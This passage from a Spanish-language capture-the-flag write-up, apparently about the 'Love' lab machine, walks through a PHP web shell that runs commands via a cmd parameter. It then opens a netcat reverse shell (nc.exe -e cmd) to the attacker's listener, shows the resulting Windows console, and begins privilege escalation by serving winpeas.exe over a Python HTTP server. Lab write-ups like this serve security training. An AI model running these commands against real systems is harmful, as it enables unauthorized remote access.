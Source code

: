![](/assets/img/Love/image_11.png)

Para ejecutar comandos debemos añadir el parámetro ?cmd a al url (`http://10.129.48.103/images/shell.php?cmd=whoami`) 

![](/assets/img/Love/image_12.png)

## Instrusión

Para mandarnos una reverse shell a nuestro equipo vamos a ver si `netcat` está `instalado` en la máquina víctima con `http://10.129.48.103/images/shell.php?cmd=where%20nc.exe`. Deberíamos de ver este output

![](/assets/img/Love/image_13.png)

Antes de mandarnos la shell debemos ponernos en `escucha` por el `puerto 443`

```
# nc -nlvp 443
```

A continuación ya podemos mandarnos la consola a nuestro equipo con `10.129.48.103/images/shell.php?cmd=nc.exe 10.10.16.16 443 -e cmd`. Si todo va bien deberíamos `obtener` una `consola`

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.48.103] 63693
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami   
whoami
love\phoebe 
```

## Privilege Escalation

Vamos a transferirnos `winpeas.exe` a la máquina `windows` para que nos `analice` formas de `escalar privilegios`. Desde nuestra máquina vamos a montarnos un `servidor` http con `python` por el `puerto 80` en el `mismo directorio` donde se encuentra el binario `winpeas.exe`. Este binario lo podemos `descargar` en [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

```
# python -m http.server 80
```
